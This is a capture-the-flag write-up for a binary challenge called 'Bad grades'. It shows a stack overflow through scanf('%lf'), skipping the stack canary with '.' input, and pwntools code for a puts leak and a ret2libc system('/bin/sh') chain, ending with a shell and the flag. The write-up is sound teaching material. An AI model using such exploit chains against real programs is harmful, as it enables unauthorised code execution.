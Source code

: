 # Bad grades

"You are not interested in studying for school anymore, you only play CTFs and challenges!  <br>
Your grades fell off a cliff! I will take your laptop away if you continue like this". You need to do something to raise them before your parents ground you forever..

# Solution

The challenge files are comprised of 2 elements:
- Bad grades binary
- Libc binary (a shared lib)

Lets start by analyzing how the **bad_grades** binary was compiled 
```bash
cmd: file bad_grades

bad_grades: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b60153cf4a14cf069c511baaae94948e073839fe, stripped

cmd: checksec --file=bad_grades
RELRO         - Full RELRO     
STACK CANARY  - Canary found       
NX            - NX enabled
PIE           - No pie          
RPATH         - No RPATH      
RUNPATH       - No RUNPATH             
Symbols       - No Symbols      
FORTIFY       - No  
Fortified     - 0  
Fortifiable   - 1      
FILE          - bad_grades      
``` 

First bad news: the binary is stripped, has canaries and cannot execute shell code in the stack <br>

The strategy for exploitation, since we have a libc, is certainly the following:
1. Find a format string vulnerability
2. Leak the canary
3. Leak libc base address
4. Return to libc

Before jumping into the disassembly, lets see how the program behaves <br>

```sql
Your grades this semester were really good BAD!

1. View current grades.
2. Add new.
> 1

Your grades were: 
2
4
1
3
0

You need to try HARDER!
-- program exited here

------------------------------------------------------
Your grades this semester were really good BAD!

1. View current grades.
2. Add new.
> 2

Number of grades: 2
Grade [1]: 12\n
Grade [2]: Your new average is: 6.00

``` 

We can see that the behaviour is odd and not correct, there are more forms of breaking it
```sql 
Number of grades: AAAAAAAAAAAAAAAAAAAAA
Your new average is: -nan

``` 

Very large numbers dont break it as well as negative numbers (at least, it seems) <br>

Lets jump into the code, shall we?! <br>

After some poking around we can see that the **main** function is located @ **0x00401108** (you can get here by checking the ELF's entry point or via the entry function) <br>

Further checking, we can distinguish both options and their respective functions (i called them **print_grades** and **add_grades** for options **1** and **2** respectively) <br>

The interesting stuff resides in the **add_grades** function
```c++
// -- snip --
double new_grades [33];

// -- snip --
__isoc99_scanf("%d",(double *)&stack0xfffffffffffffed8); // this stack0xf is the same as the n_grades below
i = 0;
while (i < n_grades) {
    printf("Grade [%d]: ",(ulong)(i + 1));
                /* %lf */
    __isoc99_scanf("%lf",new_grades + i);
    deci_0.0 = new_grades[i] + deci_0.0;
    i = i + 1;
}
printf("Your new average is: %.2f\n"); // does not show the remaining because it is using the xmm register and thus it would need some corrections to the analyzer signatures

if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) { // just canary checking
    __stack_chk_fail();
  }
```

So we can clearly see that an overflow occurs if we supply more than 33 grades ! Awesome :D <br>

The next point of struggle for me ( where i ended up asking for a hint) was to find how to actually leverage this BOF and overwrite the **ret** address <br>

First, i needed to find [this article](https://rehex.ninja/posts/scanf-and-hateful-dot/). The basic idea is that **scanf** has some special characters that ignore the current reading when reading numerical values, for example
```c
double x = 10;
scanf("%lf", &x); // with an input of '.', '+', '-'
printf("%lf", x);  // output still 10
```

So, with this finding, we already know how to bypass the canary when overflowing the buffer ! GREAT! <br>

**Note:** With some verifications with gdb, it is identifiable: 
- **canary @ 34th** grade entry
- **rbp @ 35th**
- **ret @ 36th** 

The next big set back was: How do i freakin write addresses with a float value <br>

Why this is a problem? well, if you send just packed bytes (the new ret address), scanf will not store them how you'd like! <br>

Converting the addresses to double wont work either, because they are stored somewhere else and not directly in the stack <br>

Luckly, a great guy helped me understanding how to solve this 

```py
def get_ready(raw_data):
    val = p64(raw_data).hex()
    return (struct.unpack("d", bytes.fromhex(val))[0])
```

How this works is:
- Get an hex value of your choosing 
- Pack it
- Get the packing hexadecimal value
- Unpack it to double !! (not float, there is differences between c and python double/float types)

Now we are able to write whatever we want to the ret address :D <br>

Since the challenge provides a **libc** elf file, it is pretty obvious what we need to do:
- Leak a libc address
- Ret2Libc

I'll leave my **exploit** in this notes directory but, and depending on how many entries you want to write in memory, you need to increase the number of new grades accordingly

```py
# To leak puts address
payloads = [
    get_ready(rop.find_gadget(["pop rdi"])[0]),
    get_ready(elf.got["puts"]),
    get_ready(elf.plt["puts"]),
    get_ready(main_addr) # this address is whatever you want, could've been the add_grades function
]

"""
number of entries needed
-> We know that ret @ 35th entry
-> number of grades needed = 39
def exploit_it(payloads, grades_count, go_interactive = False )
"""
exploit_it(payloads, b"39") # this is just a wrapper for recvs and sends, basically i jump to main after the leak so i dont need to modify the initial structure
```

Great, we know now have the needed information
```s
[CRITICAL] Leak received --> 0x7fb11a0bbaa0                                                        
[CRITICAL] Libc rebased @ 0x7fb11a03b000
```

Now lets Return to libc !! <br>

**Note:** I had some problems when creating a pwntools rop for the libc after rebasing it, so i created the rop object at the start and just added the calculated base address to the offset

```py
# this is the system('/bin/sh') rop chain
pop_rdi = libc_elf.address +  rop2.find_gadget(["pop rdi", "ret"])[0]
bin_sh  = next(libc_elf.search(b"/bin/sh"))
extra_ret = libc_elf.address + rop2.find_gadget(["ret"])[0] # i aligned the stack here
system_addr = libc_elf.symbols.system

payloads = [
    get_ready(pop_rdi),
    get_ready(bin_sh),
    get_ready(extra_ret),
    get_ready(system_addr)
]

exploit_it(payloads, b"39", True)
```

I had the need to tinker with the stack alignment because it was segfaulting, you might need as well ! <br>

We got it :D

```bash
cmd: whoami && id 
ctf
uid=999(ctf) gid=999(ctf) groups=999(ctf)

cmd: ls
bad_grades
flag.txt
libc.so.6
run_challenge.sh

cmd: cat flag.txt
# Flag: HTB{c4n4ry_1s_4fr41d_0f_s1gn3d_numb3r5}
```